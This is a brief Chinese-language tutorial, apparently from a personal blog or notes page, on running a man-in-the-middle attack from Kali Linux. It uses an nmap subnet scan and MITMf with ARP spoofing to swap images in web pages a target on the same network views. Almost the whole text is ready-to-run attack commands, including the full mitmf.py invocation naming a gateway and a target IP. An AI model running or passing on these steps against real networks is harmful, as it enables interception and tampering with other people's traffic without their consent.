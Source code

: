 先下载一张喜欢的图片
将图片上传到kali

创建一个目录

mkdir -p /root/MITMf/Photo

将图片放到/root/MITMf/Photo下
使用MITMf爬虫将图片替换
nmap -sP 192.168.43.120/24  扫描同网段下在使用的ip
目标访问的网址图片会被替换
测试：www.4399.com
本机跟kali一个网卡，除了kali你的物理机跟他一样图片被替换

python mitmf.py --spoof --arp -i eth0 --gateway 网关 --target 目标ip --imgrand --img-dir 图片目录

python mitmf.py --spoof --arp -i eth0 --gateway 192.168.43.1 --target 192.168.43.23 --imgrand --img-dir /root/MITMf/Photo